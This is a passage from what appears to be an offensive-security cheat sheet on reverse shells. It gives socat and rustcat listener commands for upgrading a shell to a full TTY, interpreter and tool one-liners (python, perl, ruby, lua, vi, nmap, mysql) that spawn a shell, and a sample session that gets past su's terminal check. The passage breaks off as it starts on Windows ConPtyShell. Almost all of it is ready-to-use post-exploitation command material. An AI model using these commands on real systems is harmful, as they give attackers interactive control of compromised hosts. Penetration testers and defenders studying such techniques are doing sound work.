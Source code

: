 or use `socat` binary to get a fully tty reverse shell

```bash
socat file:`tty`,raw,echo=0 tcp-listen:12345
```

Alternatively, `rustcat` binary can automatically inject the TTY shell command.

The shell will be automatically upgraded and the TTY size will be provided for manual adjustment.

```bash
stty raw -echo; stty size && rcat l -ie "/usr/bin/script -qc /bin/bash /dev/null" 6969
```


Spawn a TTY shell from an interpreter

```powershell
/bin/sh -i
python3 -c 'import pty; pty.spawn("/bin/sh")'
python3 -c "__import__('pty').spawn('/bin/bash')"
python3 -c "__import__('subprocess').call(['/bin/bash'])"
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
perl -e 'print `/bin/bash`'
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
```

- vi: `:!bash`
- vi: `:set shell=/bin/bash:shell`
- nmap: `!sh`
- mysql: `! bash`

Alternative TTY method

```
www-data@debian:/dev/shm$ su - user
su: must be run from a terminal

www-data@debian:/dev/shm$ /usr/bin/script -qc /bin/bash /dev/null
www-data@debian:/dev/shm$ su - user
Password: P4ssW0rD

user@debian:~$ 
```

## Fully interactive reverse shell on Windows
The introduction of the Pseudo Console (ConPty) in Windows has improved so much the way Windows handles terminals.

**ConPtyShell uses the function [CreatePseudoConsole()](https://docs.microsoft.com/en-us/windows/console/createpseudoconsole). This function is available since Windows 10 / Windows Server 2019 version 1809 (build 10.0.17763).**


Server Side:
